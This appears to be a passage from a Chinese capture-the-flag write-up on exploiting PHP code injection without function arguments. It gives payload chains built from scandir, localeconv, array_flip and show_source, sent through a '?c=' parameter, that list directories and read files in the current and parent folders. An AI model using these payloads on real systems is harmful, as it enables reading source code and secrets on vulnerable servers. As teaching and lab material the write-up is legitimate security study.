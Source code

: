 ```

prev() 将数组中的内部指针倒回一位

reset() ： 将内部指针指向数组中的第一个元素，并输出


highlight_file(array_rand(array_flip(scandir(getcwd())))); //查看和读取当前目录文件
print_r(scandir(dirname(getcwd()))); //查看上一级目录的文件
print_r(scandir(next(scandir(getcwd()))));  //查看上一级目录的文件
show_source(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd()))))))); //读取上级目录文件
show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(getcwd())))))))))));//读取上级目录文件
show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion())))))))))))))));//读取上级目录文件

```

我们先打印当前目录下的文件

```
?c=print_r(scandir(current(localeconv())));

相当于ls

```

![image-20231216123441459](照片/image-20231216123441459.png)

读取目录文件后，发现输出的是数组，而文件名是数组中的值，下一步我们需要取出想要读取文件的数组

构建命令

```
/?c=show_source(next(array_reverse(scandir(pos(localeconv())))));
```

